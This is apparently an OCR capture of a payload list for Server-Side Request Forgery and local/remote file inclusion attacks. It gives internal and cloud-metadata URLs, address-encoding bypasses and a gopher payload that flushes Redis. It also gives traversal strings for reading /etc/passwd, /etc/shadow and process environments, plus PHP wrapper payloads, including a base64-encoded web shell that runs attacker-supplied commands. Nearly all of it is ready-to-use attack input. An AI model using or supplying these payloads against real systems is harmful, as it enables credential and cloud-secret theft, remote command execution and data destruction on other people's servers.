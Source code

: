 **3. Server-Side Request Forgery (SSRF)**

code Codedownloadcontent\_copyexpand\_less

```
# === Internal Hosts & IPs ===
http://127.0.0.1
http://localhost
http://[::1]
http://127.0.0.1:80
http://127.0.0.1:443
http://127.0.0.1:22
http://127.0.0.1:3306
http://127.0.0.1:6379
http://10.0.0.1
http://192.168.1.1
http://metadata.google.internal/computeMetadata/v1/instance/
http://169.254.169.254/latest/meta-data/
http://instance-data/latest/meta-data/

# === Protocol Wrappers & Bypasses ===
file:///etc/passwd
file:///c:/windows/win.ini
dict://127.0.0.1:6379/info
gopher://127.0.0.1:6379/_*1%0d%0a$8%0d%0aflushall%0d%0a
http://127.1/
http://0/
http://[0:0:0:0:0:ffff:127.0.0.1]/
http://[::]
http://0000::1
http://2130706433/ (127.0.0.1 in decimal)
http://0x7f000001/ (127.0.0.1 in hex)
http://{{TARGET_HOST}}@{{CALLBACK_URL}}/
http://{{CALLBACK_URL}}#{{TARGET_HOST}}/
  
```

**4. Remote & Local File Inclusion (RFI/LFI)**

code Codedownloadcontent\_copyexpand\_less

```
# === LFI Payloads ===
../../../../../../../../etc/passwd
../../../../../../../../etc/hosts
../../../../../../../../windows/win.ini
/var/log/apache2/access.log
/var/log/nginx/access.log
/proc/self/environ
/proc/self/cmdline
/etc/shadow
C:\boot.ini

# === Wrappers & Encoding Bypasses (PHP) ===
php://filter/convert.base64-encode/resource={{TARGET_FILE}}
php://filter/read=string.rot13/resource={{TARGET_FILE}}
php://input
data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ID8+
zip://./archive.zip#shell.php
expect://{{CMD}}

# === Traversal Bypasses ===
....//....//....//....//etc/passwd
..%2f..%2f..%2f..%2fetc/passwd
..%c0%af..%c0%af..%c0%afetc/passwd
../../../../etc/passwd%00
```